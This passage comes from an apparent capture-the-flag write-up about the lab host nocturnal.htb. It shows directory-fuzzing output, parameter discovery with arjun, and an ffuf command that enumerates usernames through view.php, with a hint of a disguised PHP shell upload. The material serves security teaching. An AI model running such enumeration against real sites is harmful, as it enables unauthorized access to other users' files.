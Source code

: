 ```
login.php               [Status: 200, Size: 644, Words: 126, Lines: 22, Duration: 105ms]
index.php               [Status: 200, Size: 1524, Words: 272, Lines: 30, Duration: 111ms]
register.php            [Status: 200, Size: 649, Words: 126, Lines: 22, Duration: 105ms]
view.php                [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 109ms]
uploads                 [Status: 403, Size: 162, Words: 4, Lines: 8, Duration: 106ms]
uploads.xml             [Status: 403, Size: 162, Words: 4, Lines: 8, Duration: 106ms]
uploads.html            [Status: 403, Size: 162, Words: 4, Lines: 8, Duration: 106ms]
admin.php               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 105ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 104ms]
dashboard.php           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 106ms]
```

Got a few interesting directories, for example, the `view.php` seems weird, if we check it up, we find this:

![](cybersecurity/images/Pasted%2520image%252020250414133917.png)

It means we need a parameter, let's fuzz for parameters, I will use `arjun` for this, we can install it using:

```
pip3 install arjun
```

```
arjun -u http://nocturnal.htb/view.php
    _
   /_| _ '
  (  |/ /(//) v2.2.7
      _/

[*] Scanning 0/1: http://nocturnal.htb/view.php
[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[+] Extracted 2 parameters from response for testing: password, username
[*] Logicforcing the URL endpoint
[!] No parameters were discovered
```

We found some parameters, after fuzzing again, we can find we got a parameter named `file=`, so, we can try fuzzing for usernames based on these two parameters, for this, let's create a test account and upload a simple file, I uploaded a file called `legitimate.pdf` (I did all this before the fuzzing, since I was testing for LFI, we need the cookie in order to fuzz), now, let's fuzz and find some hidden usernames:

```
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt -u "http://nocturnal.htb/view.php?username=FUZZ&file=htb_shell.php.pdf" -H "Cookie: PHPSESSID=j23pun9jaj6197kcesh6efpoj6" -t 50 -fc 403 -ac -c

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=htb_shell.php.pdf
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt
 :: Header           : Cookie: PHPSESSID=j23pun9jaj6197kcesh6efpoj6
 :: Follow redirects : false
 :: Calibration      : true
```
